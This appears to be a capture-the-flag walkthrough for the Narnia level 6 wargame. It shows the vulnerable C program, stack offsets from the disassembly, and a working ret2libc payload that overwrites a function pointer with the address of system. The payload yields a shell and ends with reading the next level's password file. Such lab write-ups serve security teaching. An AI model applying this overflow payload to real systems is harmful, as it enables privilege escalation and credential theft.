 extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;

	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));
	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));

	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	//if(((unsigned long)fp & 0xff000000) == 0xff000000)
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);
	setreuid(geteuid(),geteuid());
    fp(b1);

	exit(1);
}
```
From what we can see it takes two arguments from the command line and we have an overflow from ```b2``` to ```b1```:
```
narnia6@narnia:/narnia$ ./narnia6 b1 123456789101112
9101112
```
From the dissassembly, as we can see at the time of the first ```strcpy```, ```b1``` is located at ```ebp - 0x14```
```
 804868f:       8d 45 ec                lea    eax,[ebp-0x14]
 8048692:       50                      push   eax
 8048693:       e8 88 fd ff ff          call   8048420 <strcpy@plt>
 ```
 What is more, ```fp``` is located at ```ebp - 0xc```, as we can see at the time of ```fp(b1)```:
 ```
 80486e4:       8b 45 f4                mov    eax,DWORD PTR [ebp-0xc]
 80486e7:       ff d0                   call   eax
 ```
 This means we can overflow into ```fp``` with the address of another function, such as ```system```, and obtain a shell! This technique is known as ```ret2libc```.

 Using ```GDB``` we can easily find the address of ```system```:
 ```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4c850 <system>
```
Great! Now for our payload:
```
narnia6@narnia:/narnia$ ./narnia6 whatever $(python -c 'print "a" * 8 + "/bin/sh;" + "\x50\xc8\xe4\xf7"')
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
```
```